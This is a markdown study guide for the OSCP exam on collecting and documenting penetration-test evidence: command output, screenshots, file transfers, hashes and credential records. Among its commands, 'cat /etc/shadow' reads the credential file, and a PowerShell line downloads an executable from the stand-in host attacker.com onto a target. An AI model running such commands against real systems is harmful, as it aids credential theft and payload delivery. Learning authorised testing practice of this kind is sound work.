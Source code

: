 # Proof Collection for OSCP

Collecting proper proof is essential for validating your findings and demonstrating successful exploitation. This guide covers best practices for gathering and documenting evidence during your OSCP exam and penetration tests.

## 📋 Table of Contents
1. [Types of Proof](#types-of-proof)
2. [Command Output](#command-output)
3. [Screenshots](#screenshots)
4. [File Transfers](#file-transfers)
5. [Hashes and Credentials](#hashes-and-credentials)
6. [Tools](#-tools)
7. [Practice](#-practice)

## Types of Proof

### Required Evidence
1. **Initial Access**
   - Exploit used
   - Command output showing successful execution
   - Initial shell access

2. **Privilege Escalation**
   - Before and after privilege levels
   - Exploit or misconfiguration details
   - Command output showing successful escalation

3. **Flags/Proof Files**
   - Contents of proof.txt or flag files
   - File hashes
   - Timestamp of access

### Proof of Concept (PoC)
- **Vulnerability Verification**: Show the vulnerability exists
- **Exploitation**: Demonstrate successful exploitation
- **Impact**: Show the potential impact

## Command Output

### Saving Output
```bash
# Save command output to file
command > output.txt 2>&1

# Append to existing file
command >> all_output.txt 2>&1

# Timestamp commands
echo "=== $(date) ===" >> notes.txt
command >> notes.txt 2>&1
```

### Important Commands to Document
```bash
# System information
uname -a
hostname
id
whoami

# Network information
ifconfig/ip a
netstat -tuln
route -n

# User information
cat /etc/passwd
cat /etc/shadow
sudo -l

# Process information
ps aux
top -n 1
```

## Screenshots

### Best Practices
1. **Be Selective**: Only capture relevant portions
2. **Highlight**: Use boxes or arrows to point out important details
3. **Annotate**: Add text descriptions
4. **Redact**: Remove sensitive information
5. **Organize**: Number and label screenshots logically

### Screenshot Tools
```bash
# Linux
import -window root screenshot.png
scrot -s -d 1 -e 'mv $f ~/screenshots/'

# Windows
# Snipping Tool or Print Screen

# Cross-platform (with GUI)
# Flameshot, Greenshot
```

## File Transfers

### Transferring Files
```bash
# Python HTTP server
python3 -m http.server 80

# SCP (from attacker)
scp file.txt user@target:/path/

# Windows (PowerShell)
Invoke-WebRequest -Uri http://attacker.com/file.exe -OutFile C:\\Windows\\Temp\\file.exe
```

### Verifying File Integrity
```bash
# Calculate hashes
md5sum file
sha1sum file
sha256sum file

# Verify downloaded files
certutil -hashfile file.exe SHA256
```

## Hashes and Credentials

### Documenting Credentials
```
# Format
Service: [Service Name]
URL/Host: [Target]
Username: [Username]
Password: [Password]
Notes: [Additional info]
```

### Password Hashes
```
# Format
Username: [Username]
LM Hash: [Hash]
NTLM Hash: [Hash]
```

## 🛠 Tools

### Evidence Collection
- **KeepNote**: Organized note-taking
- **CherryTree**: Hierarchical notes with formatting
- **Dradis**: Collaborative reporting
- **OneNote**: Microsoft's note-taking solution

### File Transfer
- **Python HTTP Server**: Quick file sharing
- **SCP**: Secure file copy
- **PowerShell**: Built-in file transfer
- **Netcat**: Raw data transfer

### Hashing
- **md5sum/sha1sum**: Linux hash utilities
- **certutil**: Windows hash utility
- **Get-FileHash**: PowerShell hashing

## 📚 Resources
- [Offensive Security Exam Guide](https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)
- [Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [NIST Guide to Test, Training, and Exercise Programs](https://csrc.nist.gov/publications/detail/sp/800-84/final)

## 🎯 Practice
1. Practice taking screenshots of key steps during lab exercises
2. Document your methodology and commands used
3. Create sample reports with your evidence
4. Verify all evidence is clear and supports your findings

## ⚠️ Legal Note
Only collect evidence from systems you own or have explicit permission to test. Always follow responsible disclosure practices and respect confidentiality agreements.
